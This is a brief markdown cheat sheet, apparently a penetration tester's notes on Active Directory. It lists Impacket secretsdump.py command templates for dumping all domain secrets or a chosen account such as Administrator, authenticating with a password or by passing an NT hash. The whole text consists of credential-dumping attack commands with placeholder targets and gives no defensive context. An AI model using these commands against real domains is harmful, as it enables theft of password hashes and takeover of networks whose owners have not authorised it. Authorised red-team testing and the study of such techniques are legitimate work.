 # secretsdump
#active-directory

## Dump all secrets with password
```
secretsdump.py <domain>/<user>:'<passwd>'@<ip>
```

## Dump Administrator with password
```
secretsdump.py <domain>/<user>:'<passwd>'@<ip> -just-dc-user <target_user|Administrator>
```

## Dump all secrets with hash
```
secretsdump.py <domain>/<user>@<ip> -hashes :<nthash>
```

## Dump Administrator with hash
```
secretsdump.py <domain>/<user>@<ip> -hashes :<nthash> -just-dc-user <target_user|Administrator>
```

